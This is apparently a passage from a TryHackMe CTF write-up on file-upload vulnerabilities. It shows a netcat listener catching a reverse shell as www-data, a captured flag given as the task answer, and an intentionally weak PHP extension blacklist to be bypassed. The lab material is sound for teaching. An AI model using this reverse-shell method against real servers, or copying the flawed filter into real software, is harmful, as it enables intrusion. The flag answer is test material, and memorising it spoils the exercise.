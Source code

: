 ```
kali@kali:~/CTFs/tryhackme/Upload Vulnerabilities$ nc -lnvp 9001
Listening on 0.0.0.0 9001
Connection received on 10.10.251.9 49828
Linux a73553061b26 4.15.0-109-generic #110-Ubuntu SMP Tue Jun 23 02:39:32 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 19:36:10 up 23 min,  0 users,  load average: 0.10, 1.45, 1.25
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ cd /var/www
$ ls -la
total 28
drwxr-xr-x 1 root     root     4096 May 24 22:37 .
drwxr-xr-x 1 root     root     4096 May 24 22:37 ..
-rw-rw-rw- 1 root     root       38 May 24 22:37 flag.txt
drwxr-xr-x 1 www-data www-data 4096 May 25 00:12 html
$ cat flag.txt
THM{NDllZDQxNjJjOTE0YWNhZGY3YjljNmE2}
```

1. What is the flag in /var/www/?

`THM{NDllZDQxNjJjOTE0YWNhZGY3YjljNmE2}`

## Task 8 Bypassing Server-Side Filtering: File Extensions

Time to turn things up another notch!

Client-side filters are easy to bypass -- you can see the code for them, even if it's been obfuscated and needs processed before you can read it; but what happens when you can't see or manipulate the code? Well, that's a server-side filter. In short, we have to perform a lot of testing to build up an idea of what is or is not allowed through the filter, then gradually put together a payload which conforms to the restrictions.

For the first part of this task we'll take a look at a website that's using a blacklist for file extensions as a server side filter. There are a variety of different ways that this could be coded, and the bypass we use is dependent on that. In the real world we wouldn't be able to see the code for this, but for this example, it will be included here:

```php
<?php
    //Get the extension
    $extension = pathinfo($_FILES["fileToUpload"]["name"])["extension"];
    //Check the extension against the blacklist -- .php and .phtml
    switch($extension){
        case "php":
        case "phtml":
        case NULL:
            $uploadFail = True;
            break;
        default:
            $uploadFail = False;
    }
?>
```
